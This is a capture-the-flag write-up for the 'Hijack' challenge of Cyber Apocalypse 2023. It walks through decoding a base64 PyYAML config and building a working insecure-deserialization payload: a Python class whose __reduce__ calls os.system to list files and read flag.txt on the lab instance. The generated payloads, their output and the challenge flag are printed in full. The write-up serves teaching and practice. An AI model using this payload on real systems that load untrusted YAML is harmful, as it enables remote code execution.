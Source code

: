 # Hijack

## Overview

- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

The security of the alien spacecrafts did not prove very robust, and you have gained access to an interface allowing you to upload a new configuration to their ship's Thermal Control System. Can you take advantage of the situation without raising any suspicion?

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Cyber-Apocalypse-2023/images/Pasted%20image%2020230319173707.png)

## Find the flag

**In this challenge, we can `nc` to the instance machine:**
```shell
┌[siunam♥earth]-(~/ctf/Cyber-Apocalypse-2023/Misc/Hijack)-[2023.03.19|17:37:31(HKT)]
└> nc 159.65.81.51 31087

<------[TCS]------>
[1] Create config
[2] Load config
[3] Exit
> 
```

In here, we can "Create config" and "Load config".

**Create config:**
```shell
<------[TCS]------>
[1] Create config
[2] Load config
[3] Exit
> 1

- Creating new config -
Temperature units (F/C/K): F
Propulsion Components Target Temperature : 69
Solar Array Target Temperature : 96
Infrared Spectrometers Target Temperature : 420
Auto Calibration (ON/OFF) : ON  

Serialized config: ISFweXRob24vb2JqZWN0Ol9fbWFpbl9fLkNvbmZpZyB7SVJfc3BlY3Ryb21ldGVyX3RlbXA6ICc0MjAnLCBhdXRvX2NhbGlicmF0aW9uOiAnT04nLAogIHByb3B1bHNpb25fdGVtcDogJzY5Jywgc29sYXJfYXJyYXlfdGVtcDogJzk2JywgdW5pdHM6IEZ9Cg==
Uploading to ship...


<------[TCS]------>
[1] Create config
[2] Load config
[3] Exit
> 
```

Based on my experience, the last 2 characters are `=`, which is a base64 encoded string.

Also, the output said: "***Serialized*** config"

**Let's try to base64 decode that:**
```shell
┌[siunam♥earth]-(~/ctf/Cyber-Apocalypse-2023/Misc/Hijack)-[2023.03.19|17:36:21(HKT)]
└> echo 'ISFweXRob24vb2JqZWN0Ol9fbWFpbl9fLkNvbmZpZyB7SVJfc3BlY3Ryb21ldGVyX3RlbXA6ICc0MjAnLCBhdXRvX2NhbGlicmF0aW9uOiAnT04nLAogIHByb3B1bHNpb25fdGVtcDogJzY5Jywgc29sYXJfYXJyYXlfdGVtcDogJzk2JywgdW5pdHM6IEZ9Cg==' | base64 -d
!!python/object:__main__.Config {IR_spectrometer_temp: '420', auto_calibration: 'ON', propulsion_temp: '69', solar_array_temp: '96', units: F}
```

Again, based on my experience, the decoded string is a ***Python's YAML library's serialized data***.

**According to [HackTricks](https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization#rce), we can gain RCE (Remote Code Execution) on the instance machine!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Cyber-Apocalypse-2023/images/Pasted%20image%2020230319174054.png)

**With that said, let's copy and paste that payload, and generate a base64 encoded serialized YAML data:**
```py
import yaml
from yaml import UnsafeLoader, FullLoader, Loader
import os
import base64

class Payload(object):
    def __reduce__(self):
        return (os.system,('ls',))

deserialized_data = yaml.dump(Payload()) # serializing data
print(base64.b64encode(deserialized_data.encode('utf-8')).decode())
```

```shell
┌[siunam♥earth]-(~/ctf/Cyber-Apocalypse-2023/Misc/Hijack)-[2023.03.19|17:45:27(HKT)]
└> python3 solve.py
ISFweXRob24vb2JqZWN0L2FwcGx5OnBvc2l4LnN5c3RlbQotIGxzCg==
```

When the YAML data is deserialized, the instance machine will try to run class `Payload`, and **the magic method `__reduce__` will be automatically invoked**, which will then executing OS command.

**Let's load that config!**
```shell
<------[TCS]------>
[1] Create config
[2] Load config
[3] Exit
> 2

Serialized config to load: ISFweXRob24vb2JqZWN0L2FwcGx5OnBvc2l4LnN5c3RlbQotIGxzCg==
chall.py
flag.txt
hijack.py
** Success **
Uploading to ship...
```

Boom! We can confirm **it's vulnerable to Python's YAML insecure deserialization**.

**Let's read the flag!**

**Payload:**
```py
return (os.system,('cat flag.txt',))
```

```shell
┌[siunam♥earth]-(~/ctf/Cyber-Apocalypse-2023/Misc/Hijack)-[2023.03.19|17:50:00(HKT)]
└> python3 solve.py
ISFweXRob24vb2JqZWN0L2FwcGx5OnBvc2l4LnN5c3RlbQotIGNhdCBmbGFnLnR4dAo=
```

```shell
<------[TCS]------>
[1] Create config
[2] Load config
[3] Exit
> 2

Serialized config to load: ISFweXRob24vb2JqZWN0L2FwcGx5OnBvc2l4LnN5c3RlbQotIGNhdCBmbGFnLnR4dAo=
HTB{1s_1t_ju5t_m3_0r_iS_1t_g3tTing_h0t_1n_h3r3?}
** Success **
Uploading to ship...
```

- **Flag: `HTB{1s_1t_ju5t_m3_0r_iS_1t_g3tTing_h0t_1n_h3r3?}`**

## Conclusion

What we've learned:

1. Insecure Deserialization In Python's YAML Library